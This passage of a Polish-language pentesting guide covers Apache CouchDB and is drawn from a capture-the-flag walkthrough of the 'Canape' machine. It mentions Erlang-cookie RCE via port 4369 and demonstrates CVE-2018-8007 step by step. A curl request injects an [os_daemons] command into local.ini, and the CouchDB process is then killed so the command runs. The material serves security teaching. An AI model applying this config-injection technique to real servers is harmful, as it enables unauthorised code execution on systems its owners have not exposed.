 Podkreślono istotne ostrzeżenie dotyczące portu `4369`. Jeśli ten port jest udostępniony w Internecie lub w jakiejkolwiek niezaufanej sieci, bezpieczeństwo systemu w dużej mierze opiera się na unikalnym identyfikatorze znanym jako "ciasteczko." To ciasteczko działa jako zabezpieczenie. Na przykład, w danej liście procesów, można zaobserwować ciasteczko o nazwie "monster", co wskazuje na jego rolę operacyjną w ramach systemu zabezpieczeń.
```
www-data@canape:/$ ps aux | grep couchdb
root        744  0.0  0.0   4240   640 ?        Ss   Sep13   0:00 runsv couchdb
root        811  0.0  0.0   4384   800 ?        S    Sep13   0:00 svlogd -tt /var/log/couchdb
homer       815  0.4  3.4 649348 34524 ?        Sl   Sep13   5:33 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/b
```
Dla tych, którzy są zainteresowani zrozumieniem, jak ten "ciasteczko" może być wykorzystane do zdalnego wykonania kodu (RCE) w kontekście systemów Erlang, dostępna jest dedykowana sekcja do dalszego czytania. Opisuje ona metodologie wykorzystywania ciasteczek Erlang w nieautoryzowany sposób w celu uzyskania kontroli nad systemami. Możesz [**zbadać szczegółowy przewodnik na temat nadużywania ciasteczek Erlang do RCE tutaj**](4369-pentesting-erlang-port-mapper-daemon-epmd.md#erlang-cookie-rce).

### **Wykorzystywanie CVE-2018-8007 poprzez modyfikację local.ini**

Przykład [stąd](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

Ostatnio ujawniona podatność, CVE-2018-8007, wpływająca na Apache CouchDB, została zbadana, ujawniając, że wykorzystanie jej wymaga uprawnień do zapisu w pliku `local.ini`. Chociaż nie jest to bezpośrednio stosowane do początkowego systemu docelowego z powodu ograniczeń bezpieczeństwa, wprowadzono modyfikacje, aby przyznać dostęp do zapisu w pliku `local.ini` w celach eksploracyjnych. Szczegółowe kroki i przykłady kodu są podane poniżej, ilustrując proces.

Najpierw środowisko jest przygotowywane poprzez upewnienie się, że plik `local.ini` jest zapisywalny, co jest weryfikowane poprzez wylistowanie uprawnień:
```bash
root@canape:/home/homer/etc# ls -l
-r--r--r-- 1 homer homer 18477 Jan 20  2018 default.ini
-rw-rw-rw- 1 homer homer  4841 Sep 14 17:39 local.ini
-r--r--r-- 1 root  root   4841 Sep 14 14:30 local.ini.bk
-r--r--r-- 1 homer homer  1345 Jan 14  2018 vm.args
```
Aby wykorzystać lukę, wykonywana jest komenda curl, celująca w konfigurację `cors/origins` w `local.ini`. To wstrzykuje nowy origin wraz z dodatkowymi komendami w sekcji `[os_daemons]`, mając na celu wykonanie dowolnego kodu:
```bash
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/cors/origins' -H "Accept: application/json" -H "Content-Type: application/json" -d "0xdf\n\n[os_daemons]\ntestdaemon = /usr/bin/touch /tmp/0xdf"
```
Kolejna weryfikacja pokazuje wstrzykniętą konfigurację w `local.ini`, porównując ją z kopią zapasową, aby uwydatnić zmiany:
```bash
root@canape:/home/homer/etc# diff local.ini local.ini.bk
119,124d118
< [cors]
< origins = 0xdf
< [os_daemons]
< test_daemon = /usr/bin/touch /tmp/0xdf
```
Początkowo oczekiwany plik (`/tmp/0xdf`) nie istnieje, co wskazuje, że wstrzyknięte polecenie nie zostało jeszcze wykonane. Dalsze badania ujawniają, że działają procesy związane z CouchDB, w tym jeden, który potencjalnie mógłby wykonać wstrzyknięte polecenie:
```bash
root@canape:/home/homer/bin# ps aux | grep couch
```
Kończąc zidentyfikowany proces CouchDB i pozwalając systemowi na automatyczne jego ponowne uruchomienie, wywoływana jest egzekucja wstrzykniętej komendy, co potwierdza istnienie wcześniej brakującego pliku:
```bash
root@canape:/home/homer/etc# kill 711
```